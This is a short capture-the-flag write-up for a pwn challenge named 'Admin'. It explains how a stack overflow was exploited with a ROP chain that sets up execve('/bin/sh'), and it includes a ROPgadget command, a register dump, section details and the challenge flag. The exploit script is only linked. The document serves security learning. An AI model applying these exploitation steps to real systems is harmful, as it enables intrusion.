

# [Admin]

## Summary

* Stack Overflow

## Tools

* pwndbg
* IDA Pro 7.0
* ROPgadget

## Description

* Vulnerability
  * 
  * It's just stack overflow. not checked the boundary of array `v1`.
  * offset = 0x48 = return address section - $rsp

* Exploit
  * Solved with ROP chain.

    ``` bash
    $ ROPgadget --binary admin --only "pop|mov|ret"
    ```

  * The following was the desired register context.
    * syscall(59, "/bin/sh", 0, 0) = execve("/bin/sh", 0, 0)

    ``` bash
    rax = 59 (execve)
    rdi = addr of "/bin/sh"
    rsi = 0
    rdx = 0
    ```

  * Notice the context when 0x4004BD returned.
    * `$rdx` is the address of bss section. used it!

    ``` bash
    <register context>
    $rax   : 0x95
    $rbx   : 0x0000000000400400  →   sub rsp, 0x8
    $rcx   : 0x0
    $rdx   : 0x00000000006bbd30  →  0x0000000000000000
    $rsp   : 0x00007fffffffe548  →  "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    $rbp   : 0x3b68732f6e69622f ("/bin/sh;"?)
    $rsi   : 0x0
    $rdi   : 0x1
    $rip   : 0x0000000000400bb1  →   ret
    $r8    : 0x0
    $r9    : 0x95
    $r10   : 0xffffff70
    $r11   : 0x246
    $r12   : 0x0000000000401940  →   push rbp
    $r13   : 0x0
    $r14   : 0x00000000006b9018  →  0x0000000000443d40  →   mov rcx, rsi
    $r15   : 0x0
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
    ──────────────────────────────────────────────────── stack ────────────────────────────────────────────────────
    0x00007fffffffe548│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"	 ← $rsp
    0x00007fffffffe550│+0x0008: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    0x00007fffffffe558│+0x0010: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
    0x00007fffffffe560│+0x0018: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe568│+0x0020: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe570│+0x0028: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe578│+0x0030: "BBBBBBBBBBBBBBBBBBBBBBBB"
    0x00007fffffffe580│+0x0038: "BBBBBBBBBBBBBBBB"
    ```

    ``` bash
      [26] .bss              NOBITS           00000000006bb2e0  000bb2d8
       00000000000016f8  0000000000000000  WA       0     0     32
    ```

  * [ex.py](./ex.py)

* `IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}`
